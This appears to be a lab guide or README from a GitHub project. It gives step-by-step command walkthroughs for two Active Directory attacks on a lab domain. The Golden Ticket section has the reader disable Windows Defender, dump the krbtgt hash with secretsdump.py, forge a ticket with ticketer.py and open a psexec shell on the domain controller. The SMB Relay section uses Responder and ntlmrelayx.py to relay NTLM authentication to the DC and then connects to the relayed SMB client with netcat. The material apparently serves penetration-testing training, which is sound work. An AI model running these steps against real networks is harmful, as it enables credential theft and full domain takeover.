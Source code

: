 
#### Golden Ticket
Before performing the attack, deactivate Windows Defender. To access its configuration, on the *Server Manager* go to *Local Server* and click on the *Windows Defender Antivirus* link.

1. Get the krbtgt’s password hash:
```bash
 secretsdump.py polaris.local/administrator:"Passw0rd"@192.168.122.10 | grep krbtgt
```

2. Get the domain SID: 
```bash
lookupsid.py polaris.local/administrator:"Passw0rd"@192.168.122.10
```
3. Create a forged ticket for a user that existss in the Domain: 
```bash
ticketer.py -nthash <krbtgt_hash> -domain-sid <domain_SID> -domain polaris.local -user-id <rid> <username>
```

Check that a file named `admin.ccache` was created. This is the file that stores the TGT.

4. Export the ticket path to the KRB5CCNAME environment variable: 
```bash
export KRB5CCNAME=<username>.ccache
```

5. Get a shell on the DC of the domain: 
```bash
psexec.py polaris.local/<username>@dc1.polaris.local -k -no-pass
```

**[NOTE:]** Add dc1.polaris.local in `/etc/hosts`.


#### SMB Relay
1. At the **attacker**, disable SMB and HTTP responses since these will be handled by **ntlmrelayx.py*. Enter `nano ~/Responder/Responder.conf` and modify the following entries:
```bash
SMB = Off
HTTP = Off
```

2. At the **attacker**, run the following command to prepare the attacker for relaying messages to the DC:
```bash
ntlmrelayx.py -smb2support -t 192.168.122.10 -i
```

3. At the second attacker, first SSH into the attacker using ssh ubuntu@<ip_attacker>. Then launch the Responder in background using:
```bash
./Responder.py -I ens3 -v &
```

4. At DM1, access a non-existing resource such as **\\test** using the **File Explorer**. Now, at both the attackers you should see several messages indicating the success of the attack.
5. Moreover, **ntlmrelayx.py** started an interactive SMB client, typically on 127.0.0.1:11000 (check the address and port number on the output of **ntlmrelayx.py**). Open a reverse shell to this client using `netcat`. The command is:
```bash
nc 127.0.0.1 11000
```
